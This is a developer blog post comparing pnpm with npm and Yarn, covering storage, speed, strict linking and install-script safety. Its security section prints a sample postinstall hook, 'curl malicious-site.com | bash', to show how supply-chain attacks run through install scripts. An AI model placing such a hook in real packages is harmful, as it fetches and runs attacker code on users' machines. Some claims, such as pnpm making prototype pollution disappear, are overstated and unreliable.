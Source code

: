 ﻿---
title: "PNPM – When Devs No Longer Wait for NPM to “Run Errands”"
description: "If install time feels like waiting on someone else’s grocery trip, it’s time to let pnpm take over."
pubDate: "2025-10-29"
published: true
tags: ["pnpm", "npm", "tooling", "package manager"]
slug: "pnpm-when-devs-stop-waiting-for-npm"
author: "Hien Nguyen"
ogTitle: "PNPM – When Devs No Longer Wait for NPM to Run Errands"
ogDescription: "If install time depends on NPM’s grocery run, it’s time for pnpm to handle it."
pairSlug:
  vi: "pnpm-khi-dev-khong-can-cho-npm-di-cho-giup-minh-nua"
---

# ⚡ PNPM – When Devs No Longer Wait for NPM to “Run Errands”

> “npm install” cranks your fans and nukes your disk? Time to give **pnpm** a spin.

---

## 🧩 The Familiar Story

You clone a repo and run:

```bash
npm install
```

And then… you wait.  
And wait.  
And keep waiting.

Maybe you try **Yarn**—a bit better—but it still downloads the same package ten times for ten different projects.  
`node_modules` bloats into gigabytes, disks fill up, and CI crawls like a sleepy turtle.

That was the scene before **pnpm** showed up.

---

## 🚀 How PNPM Differs from NPM and Yarn

In short: **pnpm stores dependencies completely differently.**

| Mechanism       | NPM / Yarn                              | PNPM                                                                      |
| --------------- | --------------------------------------- | ------------------------------------------------------------------------- |
| Storage         | Copies every package per project        | Uses a **global content-addressable store**; projects just **symlink** in |
| Disk Usage      | Heavy, lots of duplication               | Very light; saves tons of space                                           |
| Install Speed   | Average                                  | **2–3× faster** (cache + hard links)                                      |
| Version Control | Managed per project                      | Laser-accurate thanks to **strict symlink resolution**                    |
| Script Security | **Automatically runs `postinstall`**     | **Doesn’t run scripts unless you opt in**                                 |

---

## 🔒 Security — PNPM’s Underrated Superpower

This is the piece many devs overlook—but it’s huge.

### ❌ The Problem with NPM/Yarn

When you run `npm install` or `yarn install`,  
packages can **auto-run scripts** like:

```json
"scripts": {
  "postinstall": "curl malicious-site.com | bash"
}
```

If you’re not auditing closely—or your CI isn’t sandboxed—that code just executed on your machine. Supply-chain attacks like this are everywhere: pull a Node.js repo (maybe for a coding test), run `npm i`, and boom—malware fires, scraping env vars for API keys, GitHub tokens, AWS creds. In September 2025 several popular packages such as `chalk` and `debug` were compromised, cascading into hundreds of dependents; the “Shai-Hulud” worm replicated across millions of installs, leaking secrets simply because install scripts auto-ran. This is a **classic attack vector**, especially dangerous for juniors or teams that don’t audit dependencies.

### ✅ PNPM Handles It Smarter

- **No script runs by default**—you have to explicitly allow it.
- You can set `--ignore-scripts` globally in `.npmrc`:
  ```bash
  pnpm install --ignore-scripts
  ```
- Keeps **third-party payloads dormant**—grab a random repo, run `pnpm i`, and malicious scripts stay asleep instead of stealing keys or spreading.
- PNPM also sandboxes `node_modules`, preventing **module A from overriding module B**—attacks such as _prototype pollution_ or _dependency shadowing_ basically disappear.

> 🧠 Translation: pnpm installs packages without blindly trusting them—exactly what you want after the latest supply-chain incidents.

---

## 🧠 A Different Design Mindset

### 1️⃣ “Global Store” — Smart Disk Usage

PNPM keeps dependencies in a single global store (by default: `~/.pnpm-store`).  
Each package exists **once**—projects just link to it.

```bash
# First project
pnpm install

# Another project later
pnpm install   # Almost instant; packages already cached
```

### 2️⃣ “Strict Linking” — No Loose Dependencies

PNPM builds `node_modules` via a custom “virtual store.”  
Dependencies can only reach modules declared in `package.json`.

Benefits:

- No more “hidden dependency” bugs (importing something you never declared).
- Builds are reproducible—CI won’t fail because someone’s laptop leaked globals.

---

## 🧰 Quick Migration

Already on NPM or Yarn?

```bash
npm install -g pnpm
# Or on Node 18+ with corepack
corepack enable pnpm
```

Switch your scripts:

```bash
pnpm install
pnpm run dev
```

Everything else—scripts, tooling—keeps working.  
You’ll feel the speed boost on the first run.

---

## ⚖️ When Not to Switch (Yet)

- Teams running **Yarn 1 workspaces + heavy custom plugins**—test carefully.
- Legacy CI/CD stacks without pnpm cache support.
- A few tools (rare) still assume classic `node_modules` structure.

That said, with **Node 18+ and corepack**, pnpm is now silky smooth.  
Vercel, Turborepo, Nx, Cloudflare Workers—they all support it out of the box.

---

## 💬 TL;DR

|                 | NPM               | Yarn        | PNPM                                   |
| --------------- | ----------------- | ----------- | -------------------------------------- |
| Speed           | 🐢                | ⚡          | 🚀                                     |
| Disk Usage      | Heavy             | Medium      | Very light                             |
| Script Safety   | Auto-runs scripts | Auto-runs   | **Doesn’t run unless you allow it**    |
| Global Cache    | ❌                | ✅ (partial) | ✅ (full)                               |
| Isolation       | Low               | Medium      | **High (symlink isolation)**           |
| Best For        | Any small/legacy  | Mid-size    | **Pro teams / modern CI pipelines**    |

---

## 🔗 Official Resources

- [pnpm.io](https://pnpm.io)
- [PNPM store structure](https://pnpm.io/symlinked-node-modules-structure)
- [Corepack & pnpm setup](https://nodejs.org/api/corepack.html)

---

✍️ _Written by a dev whose `node_modules` used to outweigh the source code.  
With pnpm the disk stays slim, builds fly, and CI stays calm._

